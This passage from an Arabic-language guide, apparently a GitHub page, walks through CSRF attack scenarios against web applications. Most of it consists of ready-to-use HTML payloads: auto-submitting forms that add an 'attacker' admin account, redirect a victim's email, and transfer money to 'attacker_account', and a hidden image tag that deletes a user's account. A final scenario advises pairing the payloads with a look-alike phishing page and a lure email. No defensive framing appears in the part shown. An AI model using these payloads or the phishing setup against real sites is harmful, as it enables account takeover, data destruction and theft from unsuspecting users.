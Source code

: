 #### **سيناريو 3: إضافة مستخدم أدمن**
- **الوصف**: لوحة تحكم (Admin Panel) بتسمح بإضافة مستخدمين بطلب POST.
- **الاستغلال**:
  - استهدف أدمن مسجل دخوله.
  - أنشئ طلب POST يضيف مستخدم بصلاحيات أدمن:
    ```html
    <form action="/admin/add-user" method="POST" id="csrf-form">
      <input type="hidden" name="username" value="attacker">
      <input type="hidden" name="role" value="admin">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ```

#### **سيناريو 4: حذف حساب المستخدم**
- **الوصف**: موقع بيسمح بحذف الحساب بطلب GET.
- **الاستغلال**:
  - استخدم رابط زي: `/delete-account?user_id=123`.
  - ضعه في صورة أو رابط خبيث:
    ```html
    <img src="/delete-account?user_id=123" style="display:none">
    ```

#### **سيناريو 5: تعديل إعدادات الموقع**
- **الوصف**: موقع بيسمح بتغيير إعدادات (مثل البريد الإلكتروني أو إعدادات الأمان).
- **الاستغلال**:
  - أنشئ طلب POST يغير البريد الإلكتروني للمهاجم:
    ```html
    <form action="/update-email" method="POST" id="csrf-form">
      <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ```

#### **سيناريو 6: استغلال ثغرة في API**
- **الوصف**: بعض المواقع بتستخدم API لتنفيذ الإجراءات، وممكن يكون الـ API مش محمي.
- **الاستغلال**:
  - استخدم طلب POST للـ API مباشرة:
    ```html
    <form action="/api/v1/transfer" method="POST" id="csrf-form">
      <input type="hidden" name="amount" value="5000">
      <input type="hidden" name="to" value="attacker_account">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ```

#### **سيناريو 7: استغلال مع Social Engineering**
- **الوصف**: إقناع الضحية بفتح رابط خبيث عبر هجوم تصيد (Phishing).
- **الاستغلال**:
  - أنشئ صفحة مزيفة تبدو زي الموقع الرسمي، وحط فيها كود CSRF.
  - أرسل بريد إلكتروني يقول: "اضغط هنا لتحديث حسابك".
  - الكود هينفذ الطلب الخبيث لما الضحية يضغط.
